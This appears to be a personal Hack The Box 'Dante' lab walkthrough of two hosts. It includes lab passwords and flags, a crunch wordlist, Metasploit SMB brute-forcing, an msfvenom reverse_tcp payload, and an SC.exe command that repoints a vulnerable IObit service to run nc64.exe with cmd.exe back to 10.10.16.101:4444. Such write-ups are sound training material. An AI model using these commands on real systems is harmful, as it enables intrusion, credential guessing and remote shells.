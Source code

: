 # Admin Subnet:

# Host 172.16.2.6:

![[./_resources/HTB_Pro_Lab_Dante.resources/image.99.png]]
I found the above only open port (from 1000) for this machine. I was then able to login to the machine via ssh and found the next flag.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.100.png]]

I finally found the SQL01 login information on the Desktop.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.101.png]]
Raw Data:
```
Hi Julian
I've put this on your personal desktop as its probably the most secure 
place on the network!
Can you please ask Sophie to change her SQL password when she logs in
again? I've reset it to TerrorInflictPurpleDirt996655 as it stands, but
obviously this is a tough one to remember
Maybe we should all get password managers?
```

From there, I noticed there was another user name "Plongbottom". I checked the spreadsheet of users and quickly found the password and changed to this user. From there, I realized, Paul longbottom had sudo permissions so I used **_sudo -i_** to gain root privileges.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.102.png]]
I then found the root flag and checked to make sure there werent any other flags with the find command.:
```
DANTE{Alw4ys_check_th053_group5}
```

Host [172.16.1.101](http://172.16.1.101):

![[./_resources/HTB_Pro_Lab_Dante.resources/image.33.png]]

![[./_resources/HTB_Pro_Lab_Dante.resources/image.70.png]]

The credentials for FTP are:
```
tmentrso 65RedBalloons
```

For some reason, hydra, msfconsole could not guess this despite using the wordlists. I should find out why as I had to manually login with each uname and password from the excel file previously obtained from DC01.

After opening the downloaded file (remote login.txt), I obtained the following information.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.75.png]]

The password I found that has '5!' is balthazar's password.:
```
TheJoker12345!
```

Consider user 'tmodle' and the password from the above excel sheet from DC01 as well.

![[./_resources/HTB_Pro_Lab_Dante.resources/image.76.png]]

The correct credentials are:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.77.png]]
However, there was nothing in there. So I created a wordlist to find the correct smb password to access the account for dharding.:
```
crunch 19 19 -t WestminsterOrange%% -o crunch.txt
```

After running the auxiliary/scanner/smb/smb\_login module with the newly created wordlist, I found the right one.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.78.png]]

```
Password: WestminsterOrange17
```

I found a file called qc that when opened, showed the following.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.79.png]]
In searching online, I quickly found out about an exploit for this service.:
<https://www.exploit-db.com/exploits/48543>

Command I used in MSF to generate the payload. From here, I need to set lport and lhost and run it to serve it publicly.:
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o IObit.exe
```

In this case, I am unable to transfer the file I created to the machine. I think I need to update THAT policy in order to allow this to actually go through.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.80.png]]

It took me a while to understand this. But basically, I need to modify the system path for the vulnerable service so it executes a payload for a reverse shell when it's restarted. To do this, I can upload nc.exe to the Desktop of dharding. From there, I need to change the path to the IOBitUnsvr with the following string.:
```
SC.exe CONFIG IObitUnsvr binPath= "C:\Users\dharding\Desktop\nc64.exe 10.10.16.101 4444 -e cmd.exe"
```
I found out that the reason I was having so much trouble was that I had been using the wrong netcat! I downloaded the nc64.exe and that worked flawlessly.
![[./_resources/HTB_Pro_Lab_Dante.resources/image.81.png]]

```
DANTE{Qu0t3_I_4M_secure!_unQu0t3}
```
